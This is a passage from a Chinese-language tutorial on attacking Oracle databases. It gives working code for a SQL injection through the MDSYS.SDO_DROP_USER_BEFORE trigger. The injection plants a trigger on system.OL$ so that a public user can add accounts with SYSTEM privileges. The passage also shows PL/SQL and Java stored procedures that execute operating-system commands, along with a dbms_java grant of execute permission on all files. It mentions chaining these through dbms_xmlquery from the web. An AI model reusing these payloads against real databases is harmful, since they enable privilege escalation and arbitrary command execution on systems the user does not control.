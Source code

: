 我们先创建一个过程 g（名字要短）,方便注射到 MDSYS.SDO_DROP_USER_BEFORE 中，然后将 g 的执行权限赋给 public，在过程 g 中，我们创建 一个在 system 模式 OL$的 trigger，代码如上

```
drop user "g');hellove.g('";  
insert into system.OL$(OL_NAME) values('test');  
set role dba 
```

删除用户将触发触发器 MDSYS.sdo_drop_user_before，注入代码以 MDSYS 模式下执行，而 MDSYS 可以 create any trigger，所以我们利用 MDSYS 创建 system.OL$下的一个 trigger，之所以是 system.OL$，是因为 public 用户可以往里面插入数据而触发触发器，然后由于触发器是以 definer 来 运行的，所以创建的 system.evil_trigger 就以 sysem 的权限下加用户了,以上代码还是可以结合 dbms_xmlquery.getxml 来使用，请自行构造

简单分析了几个漏洞，由于 oracle 类似的漏洞太多了，不大可能一一分析，所以本小结到这就结束了

**0x3 执行命令**

下面的章节都假定我们已经获得了很高的权限，接下来我们的 target 就转移到了 os，下面我们来讲一下如何在 pl/sql 中执行 os 命令

```
create or replace library exec_shell as '$ORACLE_HOME\bin\msvcrt.dll';  
create or replace procedure execmd (command in char) is external name "system" library exec_shell language c;  
/

exec execmd('net user > hellove.txt'); 
```

直接照这上面的操作是必定会失败的，因为$ORACLE_HOME\bin\下压根就没 msvcrt.dll，long long ago 是可以用绝对地址”c:\windows\system32\msvcrt.dll”，或者用路径回溯”……\windows\system32\msvcrt.dll”来执行 command 的，不过在 oracle 10gr2 已经不行了，所以测试这个 代码的时候我是直接把 msvcrt.dll 复制到$ORACLE_HOME\bin\下，面对这种情况，我们可以利用 PL/SQL 来复制 msvcrt.dll，或者用 JAVA 来执行命 令，我比较偏爱 JAVA :)

```
create or replace and resolve java source named JAVACMD as  
import java.lang.*;  
import java.io.*;  
public class JAVACMD  
{  
public static void execmd(String command) throws IOException  
{  
Runtime.getRuntime().exec(command);  
}  
}

create or replace procedure MYJAVACMD(command in varchar) as language java  
name 'JAVACMD.execmd(java.lang.String)'; 
```

不过在执行这个 MYJAVACMD 之前必须将相应的 JAVA 权限赋予用户，之前提到的 DBMS_JVM_EXP_PERMS 就可以给用户赋予任意 java 权限，简单起见，我们直接赋予

```
exec dbms_java.grant_permission( 'HELLOVE', 'SYS:java.io.FilePermission', '<<ALL FILES>>', 'execute' );  
exec MYJAVACMD('net user'); 
```

突然发现我的题目是 hacking oracle with sql inject，不是 with pl/sql...让我们简单结合 dbms_xmlquery.newcontext 来在 web 下使用
